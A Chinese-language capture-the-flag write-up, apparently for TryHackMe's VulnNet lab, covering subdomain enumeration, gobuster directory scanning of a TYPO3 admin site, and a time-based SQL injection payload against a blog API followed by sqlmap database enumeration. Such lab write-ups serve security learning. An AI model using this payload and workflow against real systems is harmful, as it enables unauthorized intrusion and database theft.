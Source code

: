脚本链接：[M1n9K1n9_SubDomain_Scanner.py](https://github.com/Sugobet/M1n9K1n9_CyberSecurity_log/blob/master/TryHackMe/My_Python_Scripts/SubDomain_Scanner.py)

可以看到结果：

    Length:19316 :Valid domain:blog.vulnnet.thm
    Length:26701 :Valid domain:shop.vulnnet.thm
    Length:18 :Valid domain:api.vulnnet.thm
    Length:0 :Valid domain:admin1.vulnnet.thm

我们将这些子域添加到/etc/hosts

## 子域信息收集

子域的信息收集：

    shop -> 空空的兔子洞
    blog -> 看起来也没什么东西，除了一些用户名
    api -> 空

admin1:

    vulnnet management panel is up! 

## 目录扫描

我们使用gobuster扫一下目录：

    /en                   (Status: 301) [Size: 321] [--> http://admin1.vulnnet.thm/en/]
    /fileadmin            (Status: 301) [Size: 328] [--> http://admin1.vulnnet.thm/fileadmin/]
    /server-status        (Status: 403) [Size: 283]
    /typo3                (Status: 301) [Size: 324] [--> http://admin1.vulnnet.thm/typo3/]
    /typo3conf            (Status: 301) [Size: 328] [--> http://admin1.vulnnet.thm/typo3conf/]
    /typo3temp            (Status: 301) [Size: 328] [--> http://admin1.vulnnet.thm/typo3temp/]
    /vendor               (Status: 301) [Size: 325] [--> http://admin1.vulnnet.thm/vendor/]

## 信息收集

发现typo3，但是在这些目录搜寻，都没有暴露相关的版本号

为了节省点时间，看了眼wp。

## SQLI

奥！我们忽略了一个东西，我们在blog查看任意一篇文章的时候调用了一个api，而这个存在sql注入，验证：

    http://api.vulnnet.thm/vn_internals/api/v2/fetch/?blog=1 or sleep(3);--

我们借助sqlmap为我们快速获取所需的数据

sqlmap给出三个数据库：

    [*] blog
    [*] information_schema
    [*] vn_admin
